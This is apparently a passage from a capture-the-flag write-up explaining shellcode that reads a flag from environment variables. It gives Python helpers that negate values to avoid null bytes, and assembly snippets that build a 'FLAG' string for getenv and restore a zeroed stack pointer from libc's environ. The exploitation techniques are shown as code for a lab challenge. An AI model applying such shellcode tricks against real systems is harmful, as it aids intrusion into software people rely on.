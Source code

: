 These two basic helper functions have been implemented in Python for these use cases:

```python
def neg32(val):
    return -val & 0xffffffff

def neg64(val):
    return -val & 0xffffffffffffffff
```

Now that libc base is available, we just need to read the flag from the environment variables and then print it to stdout. Let's remember that IBT is enabled, so we cannot jump in the middle of functions (for example to execute a `one_gadget`).

One of the most convenient ways to get an environment variable using libc is calling the function `getenv` with the environment variable's name as the first (and only) parameter. So, we need `rdi` pointing to the `FLAG\x00` string. As it is often done, we could push the string to the stack and then move the stack address into `rdi`, with something like the following shellcode (note again the use of the negated string value because of the null byte ban):

```python
    flag_env = u64(b"FLAG\x00".ljust(8, b"\x00"))
    shellcode = asm(f"""
            [...]

            mov rdi, {hex(neg64(flag_env))};
            neg rdi;                                /* rdi = FLAG\x00 */
            push rdi;
            mov rdi, rsp;                           /* rdi = addr of FLAG */

        """)
```

If we try to execute this shellcode though, we will get a segfault again, this time at `push rdi`. That's because the stack pointer has been zeroed out the same way as all the other registers, so we don't currently have a stack to push stuff to. Additionally, even if we found a way to avoid using the stack for this step, we would still need to call `getenv`, which performs some stack operations like `push`s and `pop`s, which would anyway segfault. We need to restore the stack.

Considering we have libc base saved in `r12`, an easy way to do that is computing the address of the `environ` libc variable, which is pointing to the stack, and put that into `rsp`:

```python
    libc = ELF("libs/libc.so.6")
    environ_offs = libc.sym["environ"] + 1
    shellcode = asm(f"""
            [...]

            /* restore the stack */
            mov edx, {hex(neg32(environ_offs))};
            neg edx;
            dec rdx;                                /* rdx = environ offs */
            add rdx, r12;                           /* rdx = environ */
            mov rsp, qword ptr [rdx];               /* restore the stack */

        """)
```
